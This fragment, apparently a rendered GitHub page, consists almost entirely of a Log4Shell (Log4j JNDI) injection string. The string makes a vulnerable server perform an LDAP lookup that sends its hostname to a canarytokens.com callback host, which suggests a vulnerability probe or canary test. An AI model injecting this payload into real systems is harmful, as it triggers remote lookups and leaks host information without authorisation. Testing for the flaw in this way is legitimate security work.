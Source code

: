 # -jndi-ldap-x-hostName-.L4J.h3ut0nccvkq5yhrk1euq80j97.canarytokens.com-a-
${jndi:ldap://x${hostName}.L4J.h3ut0nccvkq5yhrk1euq80j97.canarytokens.com/a}
